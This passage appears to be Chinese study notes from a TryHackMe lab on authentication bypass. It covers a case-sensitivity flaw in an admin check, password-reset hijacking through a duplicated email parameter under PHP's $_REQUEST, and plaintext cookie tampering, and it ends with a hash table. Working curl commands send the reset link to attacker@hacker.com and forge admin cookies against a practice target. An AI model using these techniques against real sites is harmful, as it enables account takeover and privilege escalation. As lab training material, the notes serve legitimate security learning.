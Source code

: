 由于使用了三个等号，所以会在字符串中寻找完全匹配，包括相同字母大小写。存在逻辑缺陷，未经身份验证的用户请求adMin时，不会进行权限检查，也不会显示页面，从而完全绕过身份验证检查
#### 缺陷实践
重置密码功能 例如输入一个电子邮件地址`robert@acmeitsupport.thm`然后输入关联用户名
此项需要知道用户名和邮件 密码链接会发送到账户所有者的电子邮件地址
需要运行以下两个curl请求，在重置电子邮件流程第二步中，在POST字段提交到Web服务器，电子邮件在查询字符串请求中作为GET字段发送
让我们使用curl工具手动向Web服务器发送请求
```
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
使用==-H==标志为请求添加额外的标头。在本例中，我们将设置为`Content-Type`,`application/x-www-from-urlencoded`以便Web服务器知道我们正在发送表单数据，以便它能正确理解我们的请求

在程序中，使用查询字符串检索用户账户，但稍后在应用程序逻辑中，使用PHP变量中的数据发送密码重置电子邮件``$_REQUEST`

PHP变量`$_REQUEST`是一个数组，包含从查询字符串和POST数据接收的数据。如果查询字符串和POST数据使用相同的键名，则此变量的应用程序会优先处理POST的数据字段而不是查询字符串。因此如果我们在POST表单中添加另一个参数，就可以控制密码重置电子邮件的发送目的地

```
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
下一步，需要创建一个账户，这样就获得了用于创建工单的电子邮件地址
然后重新运行上述代码，这个时候就会让我们的邮箱收到一条工单，包含一个可以使用Robert身份登录的链接

### Cookie篡改
在在线会话期间检查和编辑Web服务器设置的Cookie会造成多种后果，例如未经身份验证的访问、访问其他用户的账户或提升权限。
#### 纯文本
某些Cookie内容可以是纯文本，作用显而易见，例如这些事成功登录后设置的Cookie
```
Set-Cookie: logged_in=true;Max-Age=3600; Path=/
Set-Cookie:admin=false;Max-Age=3600; Path=/
```
logged_in的似乎控制着用户当前是否登录，另一个控制着访问者时候有管理权限，如果我们能更改Cookie的内容并发送请求，就能更改我们的权限

首先从请求页面开始
```
curl http://MACHINE_IP/cookie-test
```
返回未登录的消息
现在我们发送另一个请求，将logged_in cookie 设置为True,将admin cookie设置为false
```
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```
我们收到消息，以用户身份登录
最后我们发送最后一个请求，将logged_in和admin cookie都设置为true
```
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```
#### Hash
有时，Cookie看起来像一长串随机字符，被称为哈希值，是原始文本的不可逆表示

| 原始字符串 |  哈希方法   |                                                                输出                                                                |
| :---: | :-----: | :------------------------------------------------------------------------------------------------------------------------------: |
|   1   |   md5   |                                                 c4ca4238a0b923820dcc509a6f75849b                                                 |
|   1   | SHA-256 |                                 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b                                 |
|   1   | SHA-512 | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
|   1   |  sha1   |                                             356a192b7913b04c54574d18c28d46e6395428ab                                             |
